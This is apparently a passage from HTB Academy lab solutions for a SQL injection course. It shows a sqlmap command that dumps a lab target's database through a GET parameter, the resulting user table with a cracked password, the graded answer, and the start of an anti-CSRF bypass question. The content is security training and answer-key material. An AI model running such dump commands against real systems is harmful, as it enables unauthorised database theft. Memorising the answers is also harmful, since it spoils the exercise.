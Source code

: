 ## Question 2

### "What's the Kimberly user's password? (Case #1)"

Students first need to navigate to the website's root page of the spawned target and then click on "Case #1" to notice that they need to exploit the `GET` parameter `id`:

![[HTB Solutions/CBBH/z. images/a50e4ea9a51d5ae16cce0c800b6e71aa_MD5.jpg]]

Thus, the `sqlmap` command will be:

Code: shell

```shell
sqlmap -u 'http://STMIP:STMPO/case1.php?id=1' --batch --dump
```

```
┌─[us-academy-1]─[10.10.15.8]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ sqlmap -u 'http://206.189.24.232:31764/case1.php?id=1' --batch --dump

        ___
       __H__
 ___ ___["]_____ ___ ___  {1.6.8#stable}
|_ -| . ["]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

<SNIP>

Database: testdb                                                                                                                                          
Table: users
[32 entries]
<SNIP>
| 6 | 5143241665092174 | Kimberly Wright | KimberlyMWright@gmail.com | 440-232-3739 | 3136 Ralph Drive | June 18 1972 | d642ff0feca378666a8727947482f1a4702deba0 (Enizoom1609) | Electrologist |

<SNIP>
```

From the output, students will know that the password of `Kimberly` is `Enizoom1609`.

Answer: `Enizoom1609`

# Bypassing Web Application Protections

## Question 1

### "What's the contents of table flag8? (Case #8)"

Students first need to navigate to the website's root page of the spawned target and then click on "Case #8" to notice that they need to exploit the `POST` parameter `id`, while accounting for the `anti-CSRF` protection header:
